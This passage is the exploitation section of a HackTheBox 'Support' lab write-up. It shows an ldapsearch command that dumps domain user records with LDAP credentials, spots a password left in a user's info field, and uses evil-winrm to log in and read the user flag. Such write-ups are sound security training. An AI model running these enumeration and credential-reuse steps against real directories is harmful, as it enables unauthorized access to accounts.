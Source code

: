 ## Exploitation

With LDAP credentials we are able to extract domain users info by using `ldapsearch` tool. ldapsearch is a tool to query ldap server with filters. We specify our filters with `Users` common name to get users info.

```zsh
ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX' -b "CN=Users,DC=support,DC=htb"
```

![Interesting in support](/assets/hackthebox/support/ldap_support.png)

There is an unusual info field, which is looking like a password. We try to use it like a user support's password with `evil-winrm`.

![Login successfully](/assets/hackthebox/support/winrm.png)

It worked! We've got the user flag!

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> cd ..
*Evil-WinRM* PS C:\Users\support> type Desktop/user.txt
```
